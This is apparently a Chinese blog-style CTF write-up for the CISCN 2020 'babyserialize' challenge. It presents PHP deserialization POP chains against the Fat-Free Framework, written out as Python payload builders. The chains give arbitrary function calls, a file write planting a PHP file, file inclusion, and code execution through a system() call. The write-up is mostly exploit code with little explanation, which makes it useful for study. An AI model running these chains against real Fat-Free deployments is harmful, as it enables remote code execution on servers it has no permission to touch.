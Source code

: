 ```yaml
---
title: fatfree framework POP链挖掘
date: 2020-08-21
tags:
    - CTF
    - Writeup
    - CISCN
---
```


Web狗无法在险恶的CTF世界中存活

CISCN2020 落幕，web所有题加起来还不如misc/crypto/re题的零头，吐了

这里写一下babyserialize的题的题解，其它题有心情了再写

## babyserialize

前段时间在WMCTF中挖的链被断掉了，稍微改一改

第一次见flag直接放phpinfo里头的。。。找了半天没找到。。。

在这里把挖到的几条链都放一下吧

### 单个任意参数调用任意函数

```python
@namespace('CLI')
class WS:
    # call func with one param
    def __init__(self, func, param):
        @namespace('CLI')
        class Agent():
            class Base:
                @namespace('DB\\Jig')
                class Mapper:
                    @namespace('DB\\SQL')
                    class Mapper:
                        protected_props = {'read': func}
                    protected_file = param
                    protected_db = Mapper()
                events = {'disconnect': [Mapper(), 'insert']}
            protected_server = Base()
        self.a = Agent()  # autoload
# payload: serialize(WS())
```

### 任意文件写

```python
@namespace('DB')
class Jig:
    # write file
    lazy = True
    data = {'frankli.php': {
        'asdf': '<?php phpinfo();exit();?>'
    }}
    dir = '/tmp/'
    format = 0
```

### 任意（存在的）文件包含

结合上面调用函数的链调用`\View->render`

```python
class View:
    # arbitrary **exisiting** file inclusion
    class Base:
        TEMP = '/tmp/'
        UI = '/tmp/'
    fw = Base()

print(ses.get(url, params={'flag': serialize(
    WS([View(), 'render'], 'frankli.php'))}
).text)
```

### wmctf的时候挖的rce链

结合上面调用函数的链调用`\Preview->resolve`  
然而这次`resolve`被删了  

```python
@namespace('CLI')
class WS:
    @namespace('CLI')
    class Agent():
        class F3:  # 随便一个存在的类
            class Preview:
                class Base:
                    hive = {'node': f'<?php system("ls");die(1);?>'}
                fw = Base()
            events = {'disconnect': [Preview(), 'resolve']}
        server = F3()
    a = Agent()
```

入口点和上面函数调用的是一样的

分析没心情写了。。
